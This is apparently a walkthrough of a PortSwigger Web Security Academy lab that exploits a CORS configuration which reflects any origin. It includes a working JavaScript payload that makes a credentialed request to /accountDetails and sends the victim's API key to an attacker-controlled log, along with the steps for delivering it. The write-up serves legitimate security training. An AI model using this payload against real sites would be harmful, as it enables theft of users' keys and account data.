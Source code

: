**Lab #1: CORS vulnerability with basic origin reflection**

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

Check intercept is off, then use the browser to log in and access your account page.
Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.
Send the request to Burp Repeater, and resubmit it with the added header:

Origin: https://example.com
Observe that the origin is reflected in the Access-Control-Allow-Origin header.
In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with your unique lab URL:

<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
Click View exploit. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
Go back to the exploit server and click Deliver exploit to victim.
Click Access log, retrieve and submit the victim's API key to complete the lab.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/f846ef9d-1af1-42e2-8bce-2b71cde5a31a)
